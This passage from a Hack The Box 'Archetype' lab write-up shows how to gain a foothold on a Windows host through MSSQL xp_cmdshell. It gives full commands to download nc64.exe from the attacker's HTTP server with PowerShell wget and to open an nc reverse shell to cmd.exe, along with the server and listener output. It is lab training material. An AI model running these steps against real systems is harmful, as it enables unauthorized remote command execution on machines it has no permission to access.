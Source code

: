 	Path                  
	
	----                  
	
	C:\Windows\system32   
	
	NULL                  
	
	NULL                  
	
	NULL                  

As a user `archetype\sql_svc`, we don't have enough privileges to upload files in a system directory and only user `Administrator` can perform actions with higher privileges. We need to change the current working directory somewhere in the home directory of our user where it will be possible to write. After a quick enumeration we found that Downloads is working perfectly for us to place our binary. In order to do that, we are going to use the `wget` tool within PowerShell:

	xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.118/nc64.exe -outfile nc64.exe"

(As I set up the http server to serve on port 81, I explicitly define the port in the address.
Also, we can check our IPv4 address with the `ip a` command.)

	SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.118:81/nc64.exe -outfile nc64.exe"
	output   
	------   
	NULL     

And we can verify that the http server served the binary to the target machine by checking the other terminal window where the service is running:

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.118]─[scrage@htb-rolbarnya2]─[~/Downloads]
	└──╼ [★]$ sudo python3 -m http.server 81
	Serving HTTP on 0.0.0.0 port 81 (http://0.0.0.0:81/) ...
	10.129.95.187 - - [29/Sep/2024 07:43:45] "GET /nc64.exe HTTP/1.1" 200 -

Now, we can bind the `cmd.exe` through the `nc` to our listener:

`xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.118 443"`

Finally, we can look back at the other terminal window where we are running the netcat listener, to confirm that we received a reverse shell from the target and gained a foothold to the system.

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.118]─[scrage@htb-rolbarnya2]─[~]
	└──╼ [★]$ sudo nc -lvnp 443
	listening on [any] 443 ...
	connect to [10.10.14.118] from (UNKNOWN) [10.129.95.187] 49678
	Microsoft Windows [Version 10.0.17763.2061]
	(c) 2018 Microsoft Corporation. All rights reserved.
	
	C:\Users\sql_svc\Downloads>whoami
	whoami
	archetype\sql_svc
	
	C:\Users\sql_svc\Downloads>

As with most HTB VMs, the flag is located in the user's Desktop.
